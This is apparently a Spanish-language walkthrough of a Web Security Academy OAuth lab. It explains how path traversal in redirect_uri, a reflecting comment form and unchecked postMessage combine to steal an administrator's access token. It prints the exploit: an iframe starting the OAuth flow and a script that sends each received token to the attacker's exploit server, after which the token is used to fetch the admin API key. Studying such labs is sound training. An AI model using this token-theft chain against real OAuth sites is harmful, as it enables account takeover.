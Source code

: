 En esta clase final, se combina todo lo aprendido para construir un exploit completo. Se crea un iframe que inicia el flujo OAuth con el **redirect_uri** apuntando al formulario de comentarios vulnerable, el cual reflejará el token en su propiedad ‘**location.href**‘.

Debajo del iframe, se implementa un script que escucha eventos **message** desde el iframe, y envía los datos recibidos (incluyendo el token) como una petición al exploit server. Esto permite registrar en el access log el token de acceso del administrador.

Una vez recibido el token, se utiliza en el endpoint **/me** del blog para realizar una petición autenticada como el administrador. La respuesta devuelve los datos personales y la API key, la cual se emplea para resolver el laboratorio.

Este ejercicio demuestra cómo una combinación de path traversal, comportamiento de proxy inseguro y falta de restricciones en postMessage puede comprometer por completo una cuenta privilegiada en un entorno OAuth.

Solucion
Vamos a crear un script en nuestro exploit server
para hacer el iframe hay que inteceptar despues de deslogearnos y en el apartado de carga es ahi donde interceptamos vamos a poner el host y la parte de arriba y vamos a poner despues del callback el (/../post/comment/comment-form)
![Pasted image 20250830193959.png](imagenes/Pasted image 20250830193959.png)
<'iframe src="https://oauth-0aab00270358900a80603d6d028500d5.oauth-server.net/auth?client_id=g2x5o5192ufzif2j33ser&redirect_uri=https://0ad9005203d590bb80333f79006900eb.web-security-academy.net/oauth-callback/../post/comment/comment-form&response_type=token&nonce=1641080511&scope=openid%20profile%20email"></iframe'>

<script>
    window.addEventListener('message', function(e) {
        fetch("/" + encodeURIComponent(e.data.data))
    }, false)
</script>
![Pasted image 20250830194353.png](imagenes/Pasted image 20250830194353.png)
 le damos store enviamos a la victima y miramos los acces log recargando y vemos el access token 
![Pasted image 20250830194512.png](imagenes/Pasted image 20250830194512.png)
lo pegamos en el authorization y le damos send
![Pasted image 20250830194554.png](imagenes/Pasted image 20250830194554.png)
y ya solo copiamos la api key y pegamos en la pagina
![Pasted image 20250830194626.png](imagenes/Pasted image 20250830194626.png)

 